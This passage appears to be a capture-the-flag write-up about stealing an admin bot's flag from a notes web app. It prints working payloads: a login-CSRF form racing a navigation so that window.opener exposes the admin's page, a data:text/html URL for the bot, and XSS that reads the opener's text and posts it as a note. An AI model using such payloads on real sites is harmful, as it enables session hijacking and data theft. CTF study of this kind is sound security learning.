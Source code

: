 After thinking for a while, I suddenly had an idea: "Why not just make `window.opener` the page you want to get?"

Like this:

``` html
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  form.submit()
  location = 'http://0.0.0.0:8080/notes'
</script>
```

It feels like a race condition. After the form is submitted, the page jumps immediately. At this time, because the new login has not been completed, it is still the admin's session, so you can directly get the things in `window.opener.document` after the new window is logged in.

If there is a network connection, it is done. In the case of no external connection, it can be found that the admin bot does not check the URL, so you can pass `javascript:` or `data:` and other things to it, and the part that returns the flag can be directly added as a new note.

To make the admin bot visit the following, just load the html using `data:text/html`:

```
data:text/html,<form id=f method=POST action=http://0.0.0.0:8080/login target=new_window><input name=username value=user01><input name=password value=password></form><script>f.submit();location='http://0.0.0.0:8080/notes'</script>
```

XSS payload, just open a new window to do it, or you can use an iframe.

``` js
<script>
  setTimeout(() => {
    var flag = window.opener.document.body.innerText
    var win = window.open('/new');
    setTimeout(() => {
      win.document.querySelector('textarea[name=content]').value = flag;
      win.document.querySelector('form').submit()
    }, 2000)
  }, 2000)
</script>
```

### Another solution

Using the tricks I learned a few days ago in [iframe and window.open black magic](https://blog.huli.tw/2022/04/07/iframe-and-window-open/), that is, "when opening a window with the same name, you will get a reference instead of opening a new window", so the two new windows can communicate with each other.

``` html
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  window.open('http://0.0.0.0:8080/notes', 'flag')
  form.submit()
</script>
```
